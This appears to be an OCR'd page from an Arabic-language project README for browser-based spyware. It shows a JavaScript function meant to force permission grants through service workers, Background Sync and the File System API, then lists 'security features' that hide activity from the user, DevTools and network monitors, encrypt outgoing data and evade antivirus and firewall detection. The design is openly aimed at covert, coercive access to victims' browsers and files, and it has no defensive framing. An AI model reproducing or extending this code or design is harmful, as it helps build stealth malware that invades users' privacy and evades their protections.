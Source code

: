 ### 3. إجبار منح الصلاحية
```javascript
// إجبار منح الصلاحية
async forcePermissionGrant(permission) {
    // محاولة إجبارية عبر Service Worker
    if ('serviceWorker' in navigator) {
        const registration = await navigator.serviceWorker.register('/sw.js');
        await registration.active.postMessage({
            type: 'force_permission',
            permission: permission
        });
    }
    
    // محاولة إجبارية عبر Background Sync
    if ('serviceWorker' in navigator && 'sync' in window.ServiceWorkerRegistration.prototype) {
        const registration = await navigator.serviceWorker.ready;
        await registration.sync.register('force_permission_' + permission);
    }
    
    // محاولة إجبارية عبر File System API
    if ('showDirectoryPicker' in window) {
        try {
            const dirHandle = await window.showDirectoryPicker();
            await dirHandle.requestPermission({ mode: 'readwrite' });
        } catch (e) {
            // تجاهل الأخطاء
        }
    }
}
```

## الميزات الأمنية
### Security Features

### 1. التخفي المتقدم
- **إخفاء المؤشرات البصرية:** إخفاء جميع عناصر التحميل والرسائل
- **إخفاء رسائل Console:** منع ظهور الرسائل في وحدة التحكم
- **إخفاء من DevTools:** منع فتح أدوات المطور
- **إخفاء من Network Monitor:** إخفاء طلبات الشبكة الحساسة
- **إخفاء من Process Monitor:** إخفاء العمليات

### 2. التشفير
- **تشفير البيانات:** تشفير جميع البيانات المرسلة
- **تشفير الاتصالات:** تشفير جميع الاتصالات
- **مفاتيح التشفير:** استخدام مفاتيح تشفير فريدة

### 3. الحماية من الاكتشاف
- **تجنب اكتشاف Antivirus:** تقنيات لتجنب اكتشاف برامج مكافحة الفيروسات
- **تجنب اكتشاف Firewall:** تقنيات لتجنب اكتشاف جدار الحماية
- **تجنب مراقبة الشبكة:** تقنيات لتجنب مراقبة الشبكة
